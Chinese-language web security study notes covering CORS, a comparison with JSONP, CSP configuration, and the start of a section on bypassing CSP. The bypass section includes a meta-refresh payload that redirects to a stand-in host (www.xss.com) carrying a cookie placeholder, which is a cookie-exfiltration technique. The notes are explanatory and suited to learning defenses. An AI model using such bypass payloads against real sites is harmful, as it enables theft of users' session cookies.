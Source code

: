 一旦服务器通过了"预检"请求，以后每次浏览器正常的`CORS`请求，就都跟简单请求一样，会有一个Origin头信息字段。

服务器的回应，也都会有一个`Access-Control-Allow-Origin`头信息字段

`Github`上的一个POC：https://github.com/trustedsec/cors-poc

```bash
python3 -m http.server --cgi
```

### 与JSONP的比较

`CORS`与`JSONP`的使用目的相同，但是比`JSONP`更强大。

`JSONP`只支持GET请求，`CORS`支持所有类型的HTTP请求。

`JSONP`的优势在于支持老式浏览器，以及可以向不支持`CORS`的网站请求数据。



# CSP是什么？如何设置CSP？

`CSP`（Content Security Policy）浏览器内容安全策略， 为了缓解部分跨站脚本问题 。 

`CSP`的实质就是白名单机制，对网站加载或执行的资源进行安全策略的控制。 

**两种方法启用`CSP`**

```c
1. 添加HTTP头信息；
Content-Security-Policy: script-src 'self'; object-src 'none'; style-src cdn.example.org; child-src https:
2. 使用<meta>标签
<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org; child-src https:">
参数解释

script-src(脚本)：只信任当前域名
object-src(标签)：不信任任何URL，即不加载任何资源
样式表：只信任http://cdn.example.org
框架（frame）：必须使用HTTPS协议加载
```

`CSP`各种限制选项参考：[知乎回答](https://www.zhihu.com/question/21979782)，[CSP基础语法和绕过](https://www.mi1k7ea.com/2019/02/24/CSP%E7%AD%96%E7%95%A5%E5%8F%8A%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7%E5%B0%8F%E7%BB%93/)

## 绕过CSP(1、2、3、5 重点)

**1.`URL`跳转**

在`default-src` 'none'的情况下，可以使用meta标签实现跳转

```html
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
```

在允许`unsafe-inline`的情况下，可以用`window.location`，或者`window.open`之类的方法进行跳转绕过
